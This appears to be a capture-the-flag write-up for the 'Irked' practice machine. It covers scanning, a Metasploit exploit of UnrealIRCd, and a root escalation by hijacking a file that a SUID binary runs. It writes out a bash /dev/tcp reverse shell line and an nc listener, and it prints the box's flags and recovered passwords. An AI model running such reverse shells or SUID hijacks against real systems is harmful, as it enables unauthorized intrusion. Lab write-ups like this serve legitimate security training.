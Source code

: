 Irked Writeup
=============

Irked was a pretty easy box involving the exploitation of unrealirc, stegonography, and exploiting a suid to get root. At least that's the intended way. The way that I did it involves skipping the steg and going straight to exploiting the suid, which still gets you root.

This box was very educational for me, being the first time I've ever done privesc using a suid vulnerability (albeit a basic one).

Also, this is my first writeup with images!

Enumeration
-----------

### Nmap Scan

```
# Nmap 7.70 scan initiated Sun Apr 14 21:10:13 2019 as: nmap -A -p- -o nmap_full 10.10.10.117
Nmap scan report for 10.10.10.117
Host is up (0.18s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
| ssh-hostkey: 
|   1024 6a:5d:f5:bd:cf:83:78:b6:75:31:9b:dc:79:c5:fd:ad (DSA)
|   2048 75:2e:66:bf:b9:3c:cc:f7:7e:84:8a:8b:f0:81:02:33 (RSA)
|   256 c8:a3:a2:5e:34:9a:c4:9b:90:53:f7:50:bf:ea:25:3b (ECDSA)
|_  256 8d:1b:43:c7:d0:1a:4c:05:cf:82:ed:c1:01:63:a2:0c (ED25519)
80/tcp    open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Site doesn't have a title (text/html).
111/tcp   open  rpcbind 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          50396/udp  status
|_  100024  1          52206/tcp  status
6697/tcp  open  irc     UnrealIRCd
8067/tcp  open  irc     UnrealIRCd
65534/tcp open  irc     UnrealIRCd
Service Info: Host: irked.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Apr 14 22:07:01 2019 -- 1 IP address (1 host up) scanned in 3407.11 seconds
```

This has a couple interesting services like IRC and rpc. Also has the more commnon services HTTP and ssh.

### Gobuster

```
/.hta (Status: 403)
/.htpasswd (Status: 403)
/.htaccess (Status: 403)
/index.html (Status: 200)
/manual (Status: 301)
/server-status (Status: 403)
```

Browsing to port 80 doesn't reveal anything too interesting. The homepage has an image an a message saying that IRC is almost ready. Gobuster on HTTP doesn't reveal anything too interesting.

![irkedhttp](images/irkedhttp.png)

Getting Root before User ?!
---------------------------

Connecting to the IRC server reveals that it's running UnrealIRC 3.2.8.1. 

![ircversion](images/ircversion.png)

Running `searchsploit` on that version reveals that there is a metasploit module that gives RCE. Running metasploit against irc gives us a shell back as the user `ircd`. The shell that were have, however, is extremely limited. A quick `python -c 'import pty;pty.spawn("/bin/bash")'` gives us a better looking shell.

After reading `/etc/passwd`, it appears that there is another user on this machine, `djmardov`. Navigating to his home directory shows that `user.txt` is in his `Documents` folder. We don't enough permissions to read it however.

Further enumeration doesn't reveal anything too interesting, i.e: no vulnerable services, everything is up-to-date. I narrow down my options for privesc to finding a vulnerable suid.

### Exploit a vulnerable SUID

Running the following command gives us a couple interesting binaries to look for:

`find / -user root -perm -4000 -exec ls -ldb {} \; 2>/dev/null`

```
-rwsr-xr-- 1 root messagebus 362672 Nov 21  2016 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 9468 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-x 1 root root 13816 Sep  8  2016 /usr/lib/policykit-1/polkit-agent-helper-1
-rwsr-xr-x 1 root root 562536 Nov 19  2017 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 13564 Oct 14  2014 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
-rwsr-xr-x 1 root root 1085300 Feb 10  2018 /usr/sbin/exim4
-rwsr-xr-- 1 root dip 338948 Apr 14  2015 /usr/sbin/pppd
-rwsr-xr-x 1 root root 43576 May 17  2017 /usr/bin/chsh
-rwsr-sr-x 1 root mail 96192 Nov 18  2017 /usr/bin/procmail
-rwsr-xr-x 1 root root 78072 May 17  2017 /usr/bin/gpasswd
-rwsr-xr-x 1 root root 38740 May 17  2017 /usr/bin/newgrp
-rwsr-xr-x 1 root root 18072 Sep  8  2016 /usr/bin/pkexec
-rwsr-sr-x 1 root root 9468 Apr  1  2014 /usr/bin/X
-rwsr-xr-x 1 root root 53112 May 17  2017 /usr/bin/passwd
-rwsr-xr-x 1 root root 52344 May 17  2017 /usr/bin/chfn
-rwsr-xr-x 1 root root 7328 May 16  2018 /usr/bin/viewuser
-rwsr-xr-x 1 root root 96760 Aug 13  2014 /sbin/mount.nfs
-rwsr-xr-x 1 root root 38868 May 17  2017 /bin/su
-rwsr-xr-x 1 root root 34684 Mar 29  2015 /bin/mount
-rwsr-xr-x 1 root root 34208 Jan 21  2016 /bin/fusermount
-rwsr-xr-x 1 root root 161584 Jan 28  2017 /bin/ntfs-3g
-rwsr-xr-x 1 root root 26344 Mar 29  2015 /bin/umount
```

Most of these binaries are pretty standard, with no simple way of getting a bypass. However, `viewuser` looks like the only promising one of the bunch. Running it gives us the following output:

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
sh: 1: /tmp/listusers: not found
```

Looks like it's reading a `/tmp/listusers` which doesn't exist yet. Lets try creating it and running `viewuser` again.

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
sh: 1: /tmp/listusers: Permission denied
```

Now we're getting a permission denied. Let's see if `chmod 777 listusers` fixes that.

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
```

No more errors. Since viewusers seems to be running the command `who`, lets see if we can put some of our own commands to execute inside `listusers`.

```
echo '#!/bin/bash' > listusers
echo 'id' >> listusers
```

Running viewusers then gives us:

```
This application is being devleoped to set and test user permissions
It is still being actively developed
(unknown) :0           2019-04-15 14:14 (:0)
djmardov pts/1        2019-04-15 14:17 (10.10.12.135)
djmardov pts/3        2019-04-15 14:17 (10.10.14.86)
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

Looks like we're running as root! We could easily read the root flag from here, but that's lame. How about a root shell?

```
echo '#!/bin/bash' > listusers
echo 'bash -i >& /dev/tcp/10.10.14.245/4445 0>&1' >> listusers
```

```
$ nc -lvnp 4446
listening on [any] 4446 ...
connect to [10.10.14.100] from (UNKNOWN) [10.10.10.117] 53753
root@irked:/tmp# id
id
uid=0(root) gid=1001(ircd) groups=1001(ircd)
```

Nice! Root shell. Now we just have to navigate to the `/root/` and read `root.txt` for the root flag.

`8d8e9e8be64654b6dccc3bff4522daf3`

Now we can also read the user flag as well in `/home/djmardov/Documents/user.txt`

`4a66a78b12dc0e661a59d3f5c0267a8e`

Doing it the intended way
-------------------------

Of course, the intended way involves an extra step with steganography, then into suid exploitation.

### Stegonagraphy

If we rewind back to when we were user `ircd` and tried to read `user.txt` inside `/home/djmardov/Documents`, there was actually a hidden file `.backup` which had the following string inside:

```
Super elite steg backup pw
UPupDOWNdownLRlrBAbaSSss
```

If we recall the image on http:

<img src="images/irked.jpg" alt="irked" width="200"/>

Looks like a potential candidate for `steghide`. Lets see if we can extract anything from the image using our new password.

`steghide extract -sf irked.jpg -p UpupDOWNdownLRlrBAbaSSss`

```
wrote extracted data to "pass.txt".
```

Reading `pass.txt` gives us:

```
Kab6h+m+bbp2J:HG
```

Probably the user password for `djmardov`. Looks like we can also ssh into the machine and read `user.txt`.

### SUID exploitation

From here it's the same suid exploitation from before.
